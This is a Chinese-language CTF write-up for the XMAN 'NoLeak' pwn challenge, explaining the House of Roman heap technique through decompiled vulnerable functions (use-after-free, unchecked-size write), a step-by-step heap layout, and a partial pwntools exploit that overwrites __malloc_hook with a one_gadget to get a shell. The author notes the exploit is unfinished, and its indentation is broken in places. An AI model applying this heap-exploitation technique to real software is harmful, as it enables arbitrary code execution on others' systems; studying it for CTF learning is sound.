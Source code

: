 ```yaml
---
title: noleak
date: 2018-08-16 00:00:00
categories:
- CTF/Pwn
tags:  Pwn
---
```

## house of roman
题目为xman选拔赛 Noleak 
当时没做出来，今天有时间看了下wp 
题目主要是利用了aslr的低地址随机化程度不高，利用局部写可以得到一些我们想要的值， 
题目中的漏洞很明显，一个是delete函数没有对指针清零，另一个就是update函数可以越界写 
主要的难点就是没有printf之类的函数，不能泄露地址

```
void delete()
{
  unsigned int v0; // [rsp+Ch] [rbp-4h]

  say("Index: ", 7u);
  v0 = getinput();
  if ( v0 <= 9 )
    free(heaplst[v0]);                          // didnt nullified
}      

                                     // can uaf maybe
```

——————————————————————————————————————————————————————

```
int edit()
    {
      void *v0; // rax
      unsigned int nbytes; // ST0C_4
      int idx; // [rsp+8h] [rbp-8h]

      say("Index: ", 7u);
  LODWORD(v0) = getinput();
  idx = v0;
  if ( v0 <= 9 )
  {
    v0 = heaplst[v0];
    if ( v0 )
    {
      say("Size: ", 6u);
      nbytes = getinput();                      // over flow
      say("Data: ", 6u);
      LODWORD(v0) = read(0, heaplst[idx], nbytes);
    }
  }
  return v0;
}
```

首先构造五个堆块，零号堆块的作用主要是堆结构的对齐以及修改一号堆块大小，风水堆块 
其后的四个堆块分别大小为 0xd0 0x70 0xd0 0x70 
目的主要是要利用unsortedbinattack以及fastbinattck，并且要保证不合并以及不被topchunk吞掉 
控制一号堆块中的内容，使其看起来像是两个堆块，并且前一个堆块的大小为0x70，为后续的fastbin attack做准备 
delete掉一号堆块和三号堆块，这时一号堆块fd指向mainarena，bk指向3号堆块 
再次分配1号堆块，使原有的指针信息得以保留 
释放2号和四号堆块，使其进入fastbin 
利用0号堆块修改1号堆块的size为0x71，并利用uaf修改4号堆块的指针低字节，由于堆上的偏移固定，则可以令其指向1号堆块 
修改一号堆块的fd指针的低2字节令其指向malloc hook - 0x23处 
分配三个0x70大小的堆块，这样第三个堆块就是在mallochook附近了 
我们现在需要向malloc hook 写入onegadget的地址，但是现在我们并不具有具体地地址信息，我们知道通过unsortedbinattack可以向任意地址写入固定值，这个固定值通过修改低字节可以得到onegadget的地址 
这样我们修改三号堆块的bk指针使其指向malloc hook - 0x10，向malloc hook 写入一个main_arena 地址，通过修改刚刚申请到的位于malloc hook附近的堆块，改写其低字节，我们就可以达到使malloc hook 指向onegadget的效果 
double free即可getshell

exp:

```python
from pwn import *
context.log_level = 'debug'
context.arch = "amd64"
io = process('./NoLeak')
elf = ELF('NoLeak')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

one = 0xe9415
def add(size,data):
    io.recvuntil(':')
    io.sendline('1')
    io.recvuntil('Size:')
    io.sendline(str(size))
    io.recvuntil

(':')
        io.sendline(data)
    def delete(index):
        io.recvuntil(':')
        io.sendline('2')
        io.recvuntil('Index:')
        io.sendline(str(index))
    def update(index,size,data):
        io.recvuntil(':')
        io.sendline('3')
        io.recvuntil('Index:')
        io.sendline(str(index))
        io.recvuntil('Size:')
        io.sendline(str(size))
        io.recvuntil('Data:')
        io.sendline(data)
    add(0x10,'A'*0x10)#0
    add(0xc0,'B'*0xc0)#1
    add(0x60,'C'*0x60)#2
    add(0xc0,'D'*0xc0)#3
    add(0x60,'E'*0x60)#4

    update(1,0xc0,'B'*0x68 + p64(0x61)) #split 1 to 2 chunks
    delete(1)
    delete(3)
    add(0xc0,'')#5 == 2
    delete(2)
    delete(4)
    update(0,0x20,'A'*0x18 + p64(0x71))
    update(4,1,'\x20')
    update(2,1,'\x1d')
    add(0x60,'E'*0x60)#6
    add(0x60,'C'*0x60)#7
    add(0x60,'')#8 --- mlh
    delete(7)
    update(7,8,p64(0))
    update(3,0x10,p64(0)+'\x0d')
    add(0xc0,'D'*0xc0)
    #_______brute force_______#
    update(8,0x13,'A'*3 + '\x15\x94\x0e')
    delete(0)
    delete(0)
    io.interactive()
    gdb.attach(io)
    raw_input()
```

exp并没有写完，因为我的虚拟机有些问题。。而且还要写暴力破解，懒 
总结一下： 
house of roman 主要就是通过改写低字节来控制指针的指向，通过fastbin的fd以及unsortedbin的fd，bk指针的一些特性达到控制堆地址和libc地址的效果，本质上是unsorted bin attack 结合 fastbin attack 
首先控制写malloc hook 的堆块，而后利用unsorted bin attack向mallochook写入固定值，改写低地址 